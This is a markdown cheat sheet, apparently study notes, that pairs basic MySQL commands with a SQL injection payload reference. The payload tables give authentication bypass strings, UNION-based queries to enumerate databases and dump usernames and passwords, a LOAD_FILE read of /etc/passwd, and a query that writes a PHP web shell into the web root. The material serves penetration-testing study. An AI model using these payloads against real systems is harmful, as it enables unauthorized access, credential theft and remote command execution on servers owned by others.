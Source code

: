 # Basics First!

A basics revise for all that need to see it

## MySQL

Command | Description
--- | --- 
***General***
mysql -u <username> -p | to login to mysql database
mysql -u <username> -h <IP/host_addr> -P < Port > -p | to login to remote mysql database
SHOW DATABASES	| List available databases
USE users |	Switch to database
***Tables***	
CREATE TABLE logins (id INT, ...)	| Add a new table
SHOW TABLES	| List available tables in current database
DESCRIBE logins	| Show table properties and columns
INSERT INTO table_name VALUES (value_1,..)	| Add values to table
INSERT INTO table_name(column2, ...) VALUES (column2_value, ..) |	Add values to specific columns in a table
UPDATE table_name SET column1=newvalue1, ... WHERE <condition> |	Update table values
***Columns***	
SELECT * FROM table_name	| Show all columns in a table
SELECT column1, column2 FROM table_name	| Show specific columns in a table
DROP TABLE logins	| Delete a table
ALTER TABLE logins ADD newColumn INT	| Add new column
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn	| Rename column
ALTER TABLE logins MODIFY oldColumn DATE	| Change column datatype
ALTER TABLE logins DROP oldColumn	| Delete column
***Output***	
SELECT * FROM logins ORDER BY column_1	| Sort by column
SELECT * FROM logins ORDER BY column_1 DESC	| Sort by column in descending order
SELECT * FROM logins ORDER BY column_1 DESC, id ASC	| Sort by two-columns
SELECT * FROM logins LIMIT 2	| Only show first two results
SELECT * FROM logins LIMIT 1, 2	| Only show first two results starting from index 2
SELECT * FROM table_name WHERE <condition>	| List results that meet a condition
SELECT * FROM logins WHERE username LIKE 'admin%'	| List results where the first name starts similar to a given string
SELECT * FROM logins WHERE username LIKE '%a'	| List results where the last name ends similar to a given string 
SELECT * FROM logins WHERE username LIKE '%dmin%' | To check if a string contains the given substring
SELECT * FROM logins WHERE username LIKE 'T_m' | To find first names which start with the letter T , end with the letter m, and contain any single character between e.g., Tom , Tim  
  
## MySQL Operator Precedence
- Division ( / ), Multiplication ( * ), and Modulus ( % )
- Addition ( + ) and Subtraction ( - )
- Comparison ( =, >, <, <=, >=, !=, LIKE )
- NOT ( ! )
- AND ( && )
- OR ( || )
  
# SQL Fingerprinting
  As an initial guess, if the webserver we see in HTTP responses is Apache or Nginx, it is a good guess that the webserver is running on Linux, so the DBMS is likely MySQL. The same also applies to Microsoft DBMS if the webserver is IIS, so it is likely to be MSSQL. However, this is a far-fetched guess, as many other databases can be used on either operating system or web server. So, there are different queries we can test to fingerprint the type of database we are dealing with.

As for now let us fingerprint MySQL databases. The following queries and their output will tell us that we are dealing with MySQL:

***Payload*** |	***When to Use*** |	***Expected Output*** |	***Wrong Output***
  -- | -- | -- | --
SELECT @@version |	When we have full query output |	MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1' |	In MSSQL it returns MSSQL version. Error with other DBMS.
SELECT POW(1,1) |	When we only have numeric output	|  1	| Error with other DBMS
SELECT SLEEP(5)	| Blind/No Output	| Delays page response for 5 seconds and returns 0.	| Will not delay response with other DBMS

# SQL Injections
  
   ***SQLi Discovery***
  
  Before we start subverting the web application's logic and attempting to bypass the authentication, we first have to test whether the login form is vulnerable to SQL injection. To do that, we will try to add one of the below payloads after our username and see if it causes any errors or changes how the page behaves:
  
**Payload** | **URL Encoded**
--- | --- 
' |	%27
" |	%22
\# |	%23
; |	%3B
) |	%29
>Note: In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.
  
**Payload** |	**Description**
 --- | ---
***Auth Bypass***	
admin' or '1'='1	| Basic Auth Bypass
admin')-- -	| Basic Auth Bypass With comments
| ***Auth Bypass Payloads***	
***Union Injection***	
' order by 1-- -	| Detect number of columns using order by
cn' UNION select 1,2,3-- -	| Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- -	| Basic Union injection
UNION select username, 2, 3, 4 from passwords-- -	| Union injection for 4 columns
***DB Enumeration***	
SELECT @@version	| Fingerprint MySQL with query output
SELECT SLEEP(5)	| Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- -	| Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -	| List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -	| List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -	| List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- -	| Dump data from a table in another database
***Privileges***	
cn' UNION SELECT 1, user(), 3, 4-- -	| Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -	| Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -	| Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -	| Find which directories can be accessed through MySQL
***File Injection***	
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -	| Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt'	| Write a string to a local file
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -	| Write a web shell into the base web directory
  
